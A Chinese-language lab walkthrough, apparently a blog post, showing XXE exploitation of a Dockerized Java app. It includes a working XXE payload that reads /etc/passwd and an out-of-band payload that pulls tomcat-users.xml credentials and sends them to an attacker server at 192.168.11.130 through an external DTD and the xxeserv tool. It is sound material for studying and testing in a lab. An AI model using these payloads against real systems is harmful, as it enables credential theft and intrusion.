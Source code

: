  **XXE**

##

我们这边模拟一个JAVA-XXE的环境用XXE来读取其中的TOMCAT账号密码 ，最后用gopher来执行RCE。

 ****

  *   *   * 

    
    
    存在XXE 服务器IP:192.168.11.139 攻击服务器IP:192.168.11.130环境https://github.com/pimps/docker-java-xxe

这里搭建完后有个小BUG，需要将app中index.htmlxxe-example.war拷贝到子目录xxe-example。  

![](https://gitee.com/fuli009/images/raw/master/public/20220924223558.png)

我们先测试xxe是否能读取出XXE漏洞服务器本地密码。

这里访问192.168.11.139:8080并构建XXE，

 ****

  *   *   *   *   *   *   *   * 

    
    
    <!DOCTYPE Anything [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><book><title>&xxe;</title><isbn>31337</isbn><author>Jon Snow</author></book>

![](https://gitee.com/fuli009/images/raw/master/public/20220924223559.png)

我们接下来读取tomcat里面的tomcat-user.xml数据并将其传递给远程的攻击服务器。

提供ftp服务和web服务的服务器，FTP负责接受外部的DTD数据，WEB提供接受FTP的payload。

环境https://github.com/staaldraad/xxeserv

编写一个外部的dtd。

![](https://gitee.com/fuli009/images/raw/master/public/20220924223600.png)

  * 

    
    
    ./xxeserv -wp 4444 -w -p[-wp为开启web并修改web端口 -p开启FTP端口]

![](https://gitee.com/fuli009/images/raw/master/public/20220924223602.png)

尝试读取tomcat-user.xml里面的账户密码。

构建XXE：

 ****

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <!DOCTYPE Anything [<!ENTITY % data3 SYSTEM "file:///opt/tomcat/conf/tomcat-users.xml"><!ENTITY % sp SYSTEM "http://192.168.11.130:4444/dtds/oob.dtd">%sp;%param3;%exfil;]><book><title>OOB EXFILL</title><isbn>31337</isbn><author>xxx</author></book>
